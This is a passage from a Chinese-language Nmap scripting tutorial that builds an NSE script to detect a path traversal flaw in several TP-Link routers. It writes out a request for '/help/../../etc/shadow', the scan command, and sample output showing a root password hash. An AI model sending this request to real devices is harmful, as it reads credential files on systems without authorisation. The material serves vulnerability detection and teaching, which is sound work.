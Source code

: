 1.  加载所需的库（Nmap 6.x 格式）：

```
    local http = require "http"
    local io = require "io"
    local shortport = require "shortport"
    local stdnse = require "stdnse"
    local string = require "string"
    local vulns = require "vulns"
    ```

1.  使用`shortport`库的帮助定义执行规则：

```
    portrule = shortport.http
    ```

1.  编写一个函数来发送路径遍历请求并确定 Web 应用程序是否易受攻击：

```
    local function check_vuln(host, port)
      local evil_uri = "/help/../../etc/shadow"
      stdnse.print_debug(1, "%s:HTTP GET %s", SCRIPT_NAME, evil_uri)
      local response = http.get(host, port, evil_uri)
      if response.body and response.status==200 and response.body:match("root:") then
        stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
        return true
      end
      return false
    end
    ```

1.  读取并解析响应中的文件，借助 Lua 捕获(`.*`)的一些帮助：

```
    local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
    ```

1.  最后，使用以下命令执行脚本：

```
    $ nmap -p80 --script http-tplink-dir-traversal.nse <target>

    ```

易受攻击的设备将产生以下输出：

```
-- @output
-- PORT   STATE SERVICE REASON
-- 80/tcp open  http    syn-ack
-- | http-tplink-dir-traversal:
-- |   VULNERABLE:
-- |   Path traversal vulnerability in several TP-Link wireless routers
-- |     State: VULNERABLE (Exploitable)
-- |     Description:
-- |       Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
-- |       This vulnerability can be exploited remotely and without authentication.
-- |       Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
-- |       Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.
-- |     Disclosure date: 2012-06-18
-- |     Extra information:
-- |       /etc/shadow :
-- |   
-- |   root:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::